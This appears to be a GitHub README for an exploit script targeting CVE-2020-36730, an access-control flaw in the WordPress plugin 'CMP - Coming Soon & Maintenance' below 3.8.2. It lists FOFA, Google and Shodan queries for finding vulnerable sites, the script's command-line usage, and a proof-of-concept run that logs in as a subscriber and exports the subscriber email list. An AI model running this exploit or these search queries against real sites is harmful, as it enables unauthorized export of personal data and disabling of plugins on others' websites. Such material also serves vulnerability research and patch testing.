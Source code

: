 # CVE-2020-36730
CMP - Coming Soon &amp; Maintenance &lt; 3.8.2 - Improper Access Controls on AJAX Calls (Subscriber+)


# Description:
Some of the AJAX calls from the plugin do not properly check for capabilities and CSRF tokens, leading to issues such as arbitrary post read, subscribers list export and plugin deactivation.


```
reference:
    - https://www.wordfence.com/threat-intel/vulnerabilities/id/f1ef067b-e4b4-4174-b6ff-ec94a7afd55d?source=api-prod
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:L/I:L/A:L
    cvss-score: 8.3
    cve-id: CVE-2020-36730
  metadata:
    fofa-query: "wp-content/plugins/cmp-coming-soon-maintenance/"
    google-query: inurl:"/wp-content/plugins/cmp-coming-soon-maintenance/"
    shodan-query: 'vuln:CVE-2020-36730'
```


How to use
---

```
usage: CVE-2020-36730.py [-h] -u URL [-un USERNAME] [-p PASSWORD]

CMP - Coming Soon & Maintenance < 3.8.2 - Improper Access Controls on AJAX Calls (Subscriber+) Description: Some of the AJAX calls from the plugin do not properly check for capabilities and CSRF tokens, leading to issues such as arbitrary post read, subscribers list export and plugin deactivation. CVE-2020-36730

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Website URL
  -un USERNAME, --username USERNAME
                        WordPress username
  -p PASSWORD, --password PASSWORD
                        WordPress password
```


POC
---
```
$ python3 CVE-2020-36730.py -u http://wordpress.lan -un user -p useruser1
The plugin version is below 3.8.2.
The plugin version is 3.7.6
Vulnerability check: http://wordpress.lan
Logged in successfully.



ID,Date,Email,Firstname,Lastname,Fullname
0,"2024-02-23 15:08:15",test@test.com,,,
```


